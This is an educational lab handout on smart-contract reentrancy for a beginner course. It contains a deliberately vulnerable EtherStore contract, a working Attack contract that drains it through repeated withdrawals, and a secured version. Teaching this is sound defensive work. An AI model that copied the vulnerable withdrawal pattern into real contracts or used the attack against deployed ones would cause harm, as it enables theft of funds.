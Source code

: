 # Module 9 - Beginner Lab: Smart Contract Security

## Background
As with all software, there is a chance that a smart contract may be exploited. In the case of smart contracts, though, there is an especially high risk, since transactions are permanent and wallets are essentially anonymous. To prevent financial loss, it is a good idea to follow best practices for secure programming, such as the [checks-effects-interactions pattern][checks-effects-interactions].

## Meta Information
| Attribute | Explanation |
| - | - |
| Summary | This assignment goes over exploiting a bad practice in smart contract programming. |
| Topics | Smart contracts, security, risk of financial loss. |
| Audience | Appropriate for CS1 or a later course. |
| Difficulty | Beginner. |
| Strengths | This assignment makes students aware of a type of security issue, attack scenario, and a best practice when writing code for smart contracts. |
| Weaknesses | Effective secure programming requires the discipline of strict adherence to many, potentially unintuitive guidelines for which it is impractical to present the breadth of in a single lab. |
| Dependencies | Some programming knowledge and an internet-connected computer with a suitable browser for use of [the Remix IDE][Remix]. |
| Variants | There are many other vulnerabilities which could be the focus of this lab instead. |

## Assignment Instructions
1. First, we begin by creating a contract with a simple purpose, such as temporarily holding Ether for the owner(s). Click the plus icon ![plus-icon.png](screenshots/plus-icon.png) in the upper left corner of [Remix][Remix] to create a new document and name it `EtherStore.sol`. Then copy and paste the following code:  
    [_EtherStore.sol_][EtherStore.sol]
    ```solidity
    contract EtherStore {

        uint256 public withdrawalLimit = 1 ether;
        mapping(address => uint256) public lastWithdrawTime;
        mapping(address => uint256) public balances;

        function depositFunds() public payable {
            balances[msg.sender] += msg.value;
        }

        function withdrawFunds (uint256 _weiToWithdraw) public {
            require(balances[msg.sender] >= _weiToWithdraw);
            // limit the withdrawal
            require(_weiToWithdraw <= withdrawalLimit);
            // limit the time allowed to withdraw
            require(now >= lastWithdrawTime[msg.sender] + 1 weeks);
            require(msg.sender.call.value(_weiToWithdraw)());
            balances[msg.sender] -= _weiToWithdraw;
            lastWithdrawTime[msg.sender] = now;
        }
     }
    ```
    ![create-new-file](screenshots/create-new-file.png)  
    ![etherstore-created.png](screenshots/etherstore-created.png)  
2. We then create an other contract to attack `EtherStore.sol`. Create a new contract named `Attack.sol`, and copy/paste the following code:  
    [_Attack.sol_][Attack.sol]
    ```solidity
    import "EtherStore.sol";

    contract Attack {
      EtherStore public etherStore;

      // intialize the etherStore variable with the contract address
      constructor(address _etherStoreAddress) {
          etherStore = EtherStore(_etherStoreAddress);
      }

      function attackEtherStore() public payable {
          // attack to the nearest ether
          require(msg.value >= 1 ether);
          // send eth to the depositFunds() function
          etherStore.depositFunds.value(1 ether)();
          // start the magic
          etherStore.withdrawFunds(1 ether);
      }

      function collectEther() public {
          msg.sender.transfer(this.balance);
      }

      // fallback function - where the magic happens
      function () payable {
          if (etherStore.balance > 1 ether) {
              etherStore.withdrawFunds(1 ether);
          }
      }
    }
    ```
    ![attack-created.png](screenshots/attack-created.png)  
3. In `Attack`, observe that whenever this contract's `attackEtherStore` function is called with a transaction amount >= 1 ether, it then calls the `EtherStore` contract’s `depositFunds` function, followed immediately by `EtherStore`'s `withdrawFunds` function. The `EtherStore` contract verifies the balance, owner, withdrawal amount, and time since last withdrawal are all okay and proceeds to pay the attacking contract. So far, everything seems okay; however, once the `EtherStore` contract pays the `Attack` contract, execution of the code flows into the `Attack` contract's fallback function (the function called when a contract is paid any amount). Inside the `Attack` contract's fallback function, `EtherStore`'s balance is checked, and provided there is ether remaining to steal, the `withdrawFunds` function is called again. The `Attack` contract has, in effect, caused execution to "reenter" the `EtherStore` contract's `withdrawFunds` function before it could update the values it checks to ensure everything is okay before paying out.
4. Click on the plugin icon ![plug-icon.png](screenshots/plug-icon.png) in the left-most pane of Remix.
    ![left-icon-pane.png](screenshots/left-icon-pane.png)
5. Activate the `Deploy & Run Transactions` and `Solidity Compiler` plugins.
    ![plugins-to-activate.png](screenshots/plugins-to-activate.png)
    You should see two new icons in the leftmost pane: one, the solidity compiler, looks like an "s" ![solidity-compiler-icon.png](screenshots/solidity-compiler-icon.png) and the other, deploy and run, is the ethereum symbol with an arrow to the right ![deploy-and-run-icon.png](screenshots/deploy-and-run-icon.png).
    ![activated-plugin-icons.png](screenshots/activated-plugin-icons.png)
6. Click the solidity compiler plugin icon ![solidity-compiler-icon.png](screenshots/solidity-compiler-icon.png).
7. Select compiler `0.4.26+commit.4563c3fc`.  
    ![compiler-version.png](screenshots/compiler-version.png)  
7. Click the `EtherStore.sol` tab of the editor.  
    ![etherstore-tab.png](screenshots/etherstore-tab.png)  
8. Click the `Compile EtherStore.sol` button and wait for compilation to complete.
    ![compile-button.png](screenshots/compile-button.png)
    If all went well, you should see a check mark next to the solidity compiler icon.
    ![compiler-checkmark.png](screenshots/compiler-checkmark.png)
9. Repeat the last 2 steps for `Attack.sol`.
8. Click the deploy-and-run plugin icon ![deploy-and-run-icon.png](screenshots/deploy-and-run-icon.png), and then click the orange `Deploy` button ![orange-deploy-button.png](screenshots/orange-deploy-button.png).
    ![deploy-and-run-view.png](screenshots/deploy-and-run-view.png)
9. A smart contract, **EtherStore** will be deployed to the blockchain.
    ![contract-deployed.png](screenshots/contract-deployed.png)

10. Do the same for `Attack.sol`.
x. We can prevent an attack like this in a few different ways. One way is to use the built-in `transfer` function, which only sends 2300 gas, insufficient to allow the current execution to call the `withdrawFunds` function again. An other way is to use what's known as the [checks-effects-interactions pattern][checks-effects-interactions], which would have us move lines 18 and 19 to before line 17, so that updates to checked variables are done before interaction with an outside entity. One more way we could prevent this attack is with an additional state variable, called a mutex or mutual exclusion variable, which acts as a lock and prevents further execution from occurring until the current function exits (and resets the mutex). Including all three methods (though any one would work), we have a more-secure `EtherStore`, which we'll call `SecuredEtherStore`:  
    [_SecuredEtherStore.sol_][SecuredEtherStore.sol]
    ```solidity
    contract SecuredEtherStore {

        // initialize the mutex
        bool reEntrancyMutex = false;
        uint256 public withdrawalLimit = 1 ether;
        mapping(address => uint256) public lastWithdrawTime;
        mapping(address => uint256) public balances;

        function depositFunds() public payable {
            balances[msg.sender] += msg.value;
        }

        function withdrawFunds (uint256 _weiToWithdraw) public {
            require(!reEntrancyMutex);
            require(balances[msg.sender] >= _weiToWithdraw);
            // limit the withdrawal
            require(_weiToWithdraw <= withdrawalLimit);
            // limit the time allowed to withdraw
            require(now >= lastWithdrawTime[msg.sender] + 1 weeks);
            balances[msg.sender] -= _weiToWithdraw;
            lastWithdrawTime[msg.sender] = now;
            // set the reEntrancy mutex before the external call
            reEntrancyMutex = true;
            msg.sender.transfer(_weiToWithdraw);
            // release the mutex after the external call
            reEntrancyMutex = false;
        }
     }
    ```

## Credits
Dr. Debasis Bhattacharya  
Mario Canul  
Saxon Knight  
https://github.com/ethereumbook/ethereumbook  

[Remix]: https://remix.ethereum.org/
[EtherStore.sol]: EtherStore.sol
[Attack.sol]: Attack.sol
[SecuredEtherStore.sol]: SecuredEtherStore.sol
[checks-effects-interactions]: https://solidity.readthedocs.io/en/latest/security-considerations.html#use-the-checks-effects-interactions-pattern
